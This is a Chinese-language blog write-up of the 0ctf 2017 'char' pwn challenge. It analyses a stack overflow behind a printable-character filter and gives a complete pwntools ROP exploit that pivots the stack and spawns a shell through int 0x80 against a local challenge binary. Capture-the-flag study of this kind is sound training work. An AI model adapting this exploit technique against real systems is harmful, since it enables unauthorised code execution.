 <!--yml
category: 未分类
date: 2022-04-26 14:31:44
-->

# 0ctf-2017-pwn-char 题解___lifanxin的博客-CSDN博客

> 来源：[https://blog.csdn.net/A951860555/article/details/113666423](https://blog.csdn.net/A951860555/article/details/113666423)

# 文件信息

该题目来自2017年0ctf的一道pwn题–[char](https://download.csdn.net/download/A951860555/15073488)。
查看文件信息：
  只开启了NX保护，32位小端程序
![check](img/f6bbb5abe6e3e084d78458730b223d8f.png)
另外该题目还给了[libc.so](https://download.csdn.net/download/A951860555/15073533)文件，部署时需要将该库文件放到`/home/char/`目录下，部署的目录位置可以从程序的伪C代码中看出。

# 漏洞定位

![main](img/c86e0b57456c700c89fec0919d272fcd.png)
程序的main函数如上图所示，首先程序可以接受2400字符的输入，但注意这里的scanf的读取限制，比如：空格、回车、换行符等等都是无法读入的，这里的限制体现在后面构造ROP链时地址中不能含有以上字符的十六进制表示。然后将libc.so库文件映射到了固定地址`0x5555E000`，这使得后面我们可以直接使用固定地址加库函数偏移调用libc库函数或者ROP地址。最后一个for循环对存储在s中的字符也就是输入字符进行检查，该检查函数如下图所示，限定了输入的字符范围在`31< char <=126` 之间，此检查规则将会在后面对我们构造ROP链造成巨大的困难。
![checker](img/897b119af647be2e364b0c37f044787b.png)
最后只剩一个函数了，截图如下，该函数即是漏洞位置所在，它将我们检查后的输入复制到一个离返回地址距离非常小的栈空间中，此时存在栈溢出。这里值得注意的是，scanf函数可以读取\x00这样的字符，而strcpy函数则会以\x00字符作为截断标志，这一点会在后面的ROP链构造中使用到。
![strcpy](img/0073c11ac063862a872bce22762d7bde.png)

# 利用分析

对于该pwn的漏洞利用，我们需要结合checksec的信息来看，这是一道非常明显的栈溢出题目，然后开启了NX保护，给了libc.so库文件。首先我们可以想到直接使用ret2libc的方式，直接调用libc中的system函数获取到shell。然而通过下面的截图我们可以看到，system和execve函数地址中十六进制字符超出了程序检查的范围，所以无法使用该利用方式。
![system](img/8413da72d7b6e12fe3fd1bf666f0228d.png)
最后经过多方面的查阅和思考，我决定采用ROP链构造syscall调用获取shell的方式，在构造过程会遇到诸多问题，主要也是由于程序的字符检查机制带来的麻烦，这导致很多gadget地址不能用。同时由于strcpy函数无法读取\x00，所以我们存入的0字符也无法正常的copy，所以这里利用strcpy调用后，ecx寄存器中的值和源字符串地址有一定关系，实现栈迁移，跳转到原来的字符串所处位置（这里并非就是源字符串地址的起始位置），在那里执行ROP链。

# wp

整个wp需要注意几个细节，实现栈迁移利用的是strcpy函数返回后，ecx寄存器会是源字符串地址的一个固定偏移值，具体偏移多少由字符串的长度决定，这里可以采用动态调试的方式去确定这个偏移。其次是在\x00字符之后的gadget地址可以不用遵循程序字符检查的机制，因为for循环中strlen会以\x00作为截断，\x00后面的字符不会被检查也不会被复制。最后对shellcode编写不熟悉的看官可以参考这篇[博文](https://blog.csdn.net/A951860555/article/details/110936441)。

```
from pwn import *

context.log_level = "debug"
p = process("./char")

base = 0x5555e000
sh_addr = 0x15D7EC
pop_ebx_ret = 0x0001934e
pop_ecx_add_al_0xa_ret = 0x00174a51
pop_edx_xor_eax_pop_edi_ret = 0x00095555
inc_eax_ret = 0x00168864
int_0x80 = 0x00109176
mov_eax_ecx_ret = 0x148253
xchg_eax_esp_retb = 0xe6d62

payload = cyclic(0x1c)

payload += p32(mov_eax_ecx_ret+base) 
payload+= p32(mov_eax_ecx_ret+base)
payload+= p32(xchg_eax_esp_retb+base)
payload+= b'\x00'*3

payload += p32(pop_ebx_ret+base) + p32(sh_addr+base) 
payload += p32(pop_ecx_add_al_0xa_ret+base) + p32(0) 
payload += p32(pop_edx_xor_eax_pop_edi_ret+base) + p32(0) + p32(0) 
for _ in range(int(0xb)):  
    payload += p32(inc_eax_ret+base)
payload += p32(int_0x80+base)

p.sendline(payload)
p.interactive() 
```

# 总结

该题目看似简单，但实际操作中会遇到不少问题，通过对输入字符的限制，充分考察了做题人的shellcode编写能力，ROP链的构造能力，这里我也给出[github](https://gist.github.com/rick2600/ae2af7ffd33a17836f06ce191f643b26)上另外一位大佬的利用方式，他采用纯实现syscall调用的方式，由于不能直接压入0字符，`/bin/sh`字符的地址也存在检查限制，所以整个构造过程别出心裁，看似简单明了，但实际操作过程中会花费不少时间。